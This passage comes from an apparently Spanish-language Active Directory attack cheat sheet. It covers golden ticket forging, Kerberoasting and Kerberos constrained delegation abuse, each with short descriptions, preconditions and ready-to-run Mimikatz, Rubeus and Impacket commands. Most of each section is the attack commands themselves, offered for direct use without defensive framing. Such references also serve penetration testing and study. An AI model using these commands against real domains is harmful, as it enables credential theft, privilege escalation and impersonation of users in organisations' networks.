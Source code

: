 **Herramientas y comandos:**

- **Windows:**  
  - **Mimikatz:**  
    ```powershell
    mimikatz # kerberos::golden /user:Administrator /domain:<DOMINIO> /sid:<SID> /krbtgt:<HASH> /ptt
    ```
- **Linux:**  
  - **Impacket/ticketer.py:**  
    ```bash
    python3 ticketer.py -nthash <KRBTGT_HASH> -domain-sid <SID> <USER>@<DOMAIN>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 5. Kerberoasting

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Solicita TGS de cuentas de servicio (SPN) y crackea el hash offline.                    |
| **Condiciones** | Cuenta de servicio con SPN y contraseña débil.                                          |

**Herramientas y comandos:**

- **Windows:**  
  - **Rubeus:**  
    ```powershell
    Rubeus.exe kerberoast
    ```
- **Linux:**  
  - **Impacket/GetUserSPNs.py:**  
    ```bash
    python3 GetUserSPNs.py <domain>/<user>:<pass> -dc-ip <DC-IP> -request
    ```

[Volver al índice](#índice-de-técnicas)

---

## 6. Kerberos Constrained Delegation (KCD) Abuse

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Solicita TGS en nombre de cualquier usuario a servicios concretos si controlas cuenta.  |
| **Condiciones** | Control sobre cuenta/máquina con KCD.                                                   |

**Herramientas y comandos:**

- **Windows:**  
  - **Rubeus:**  
    ```powershell
    Rubeus.exe s4u /user:<USER> /rc4:<HASH> /impersonateuser:<TARGET> /msdsspn:<SPN> /ptt
    ```
